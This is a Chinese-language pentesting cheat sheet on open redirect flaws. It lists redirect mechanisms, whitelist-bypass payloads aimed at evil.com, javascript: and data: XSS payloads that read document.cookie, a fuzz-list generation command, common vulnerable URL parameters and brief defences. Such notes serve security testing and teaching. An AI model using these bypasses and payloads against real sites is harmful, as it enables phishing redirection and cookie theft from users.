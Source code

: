 ### 简介

任意重定向(Open Redirection)

### 漏洞原理

* 跳转方式1 HTTP Response Code & Header
  * HTTP Response Status Code - Redirection `3xx`
    - [300 Multiple Choices](https://httpstatuses.com/300)
    - [301 Moved Permanently](https://httpstatuses.com/301)
    - [302 Found](https://httpstatuses.com/302)
    - [303 See Other](https://httpstatuses.com/303)
    - [304 Not Modified](https://httpstatuses.com/304)
    - [305 Use Proxy](https://httpstatuses.com/305)
    - [307 Temporary Redirect](https://httpstatuses.com/307)
    - [308 Permanent Redirect](https://httpstatuses.com/308)
  * HTTP Response Header
    - `Location: `
* 跳转方式2 `meta`标签
    - 绝对路径 `<meta http-equiv="Refresh" content="0; url=https://www.w3docs.com" />` 0秒跳转
    - 相对路径 `<meta http-equiv="Refresh" content="3.5; url=../" />` 3.5秒跳转
* 跳转方式3 Javascript实现跳转
  * 1.`window.location.href`
    * 绝对路径 `window.location.href='http://evil.com';`
      * 如果参数可控则能XSS `window.location.href="javascript:alert(document.cookie)";`
    * 相对路径 `window.location.href='../../';`  会从当前url`http://a.com/1/2/3/`跳转到`http://a.com/1/`
      * 如果`../`非常多则跳转到`http://a.com/`
  * 2.`window.location.replace`
    * 绝对路径 `location.replace("http://new.tld?para=1#title");`
      * 如果参数可控则能XSS `location.replace("javascript:alert(document.cookie)");`
    * 相对路径 `location.replace("../");`
  * 3.待补充


**触发漏洞**
```
访问
https://famous-website.tld/signup?redirectUrl=https://evil.tld/account
浏览器访问famous-website.tld 如果被重定向到域evil.tld 则存在任意重定向漏洞
```

### 漏洞影响

* 任意重定向(Open Redirection)漏洞影响
  * redirection - 合法域名white.com下 实现重定向 到"钓鱼"等其他网站
  * XSS - 合法域名white.com下 实现XSS

### 测试方法

有一定安全意识的开发人员会对"跳转目的值"使用"关键字白名单"进行校验，我们尝试利用这些"关键字白名单"来绕过不够严谨的校验

尝试找到并利用aaa.com的任意重定向漏洞 跳转到evil.com

* 手工测试 - 任意重定向漏洞导致的跳转 - "跳转目的值"
  * 使用特定子域名绕过不严谨的"关键字白名单"校验   `www.aaa.com.evil.com`
  * 使用`@`绕过白名单机制                        `http://www.aaa.com@evil.com/`
  * 使用参数污染 绕过白名单机制                   `?next=whitelisted.com&next=evil.com`
  * 使用子文件夹名 绕过白名单机制                 `http://www.evil.com/http://www.aaa.com/` `http://www.evil.com/folder/www.aaa.com`
  * 使用CRLF绕过对字符串`javascript`的检测和限制  `java%0d%0ascript%0d%0a:alert(0)`
  * 使用`//`绕过对字符串`http`的检测和限制        `//evil.com`
  * 使用`https:`绕过对字符串`//`的检测和限制      `https:evil.com`
  * 使用`\/\/` 绕过对字符串`//`的检测和限制       `\/\/evil.com/` `/\/evil.com/`
  * 使用`。`即%E3%80%82绕过对`.`的检测和限制      `/?redir=evil。com`  `//evil%E3%80%82com`
  * 使用%00绕过黑名单机制                        `//evil%00.com`
  * ...
* 手工测试 - 任意重定向漏洞导致的XSS
  * XSS from Open URL  `";alert(0);//`
  * XSS from `data://` wrapper   `http://www.aaa.com/redirect.php?url=data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik7PC9zY3JpcHQ+Cg==`
  * XSS from `javascript://` wrapper  `http://www.aaa.com/redirect.php?url=javascript:prompt(1)`
* 自动化 - 生成"跳转目的值"字典 进行fuzz 测试任意重定向漏洞 (跳转+XSS)
  * 进入文件夹`/PayloadsAllTheThings/Open redirect`
  * 执行命令 生成针对aaa.com的"任意重定向漏洞"fuzz字典 `Open-Redirect-payloads-burp-aaa.com.txt`

```
WHITELISTEDDOMAIN="www.aaa.com" && sed 's/www.whitelisteddomain.tld/'"$WHITELISTEDDOMAIN"'/' Open-Redirect-payloads.txt > Open-Redirect-payloads-burp-"$WHITELISTEDDOMAIN".txt && echo "$WHITELISTEDDOMAIN" | awk -F. '{print "https://"$0"."$NF}' >> Open-Redirect-payloads-burp-"$WHITELISTEDDOMAIN".txt
```


**常出现跳转漏洞的功能点**
```
1.登录、注销处的URL跳转
```

**常出现跳转漏洞的URL格式**
```
/{payload}
?next={payload}
?url={payload}
?target={payload}
?rurl={payload}
?dest={payload}
?destination={payload}
?redir={payload}
?redirect_uri={payload}
?redirect_url={payload}
?redirect={payload}
/redirect/{payload}
/cgi-bin/redirect.cgi?{payload}
/out/{payload}
/out?{payload}
?view={payload}
/login?to={payload}
?image_url={payload}
?go={payload}
?return={payload}
?returnTo={payload}
?return_to={payload}
?checkout_url={payload}
?continue={payload}
?return_path={payload}
```

### SDL - 防御与修复方案

* 如果有非法字符return false
* 严格限制参数值内容-"关键字白名单"
* 严格限制参数值长度
* ...

>参考[PayloadsAllTheThings/Open Redirect/README.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Open%20Redirect/README.md)

